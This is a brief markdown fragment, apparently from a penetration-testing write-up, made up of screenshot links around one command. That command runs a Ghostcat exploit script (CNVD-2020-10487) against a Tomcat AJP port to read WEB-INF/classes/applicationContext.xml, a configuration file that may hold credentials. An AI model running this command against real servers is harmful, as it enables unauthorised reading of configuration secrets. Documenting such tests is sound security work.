 ![image-20250524101128572](pictures/image-20250524101128572.png)



```
python2 CNVD-2020-10487-Tomcat-Ajp-lfi.py ip -p 8009 -f WEB-INF/classes/applicationContext.xml
```

![image-20250521171414394](.\pictures\image-20250521171414394.png)

![image-20250524101310639](pictures/image-20250524101310639.png)

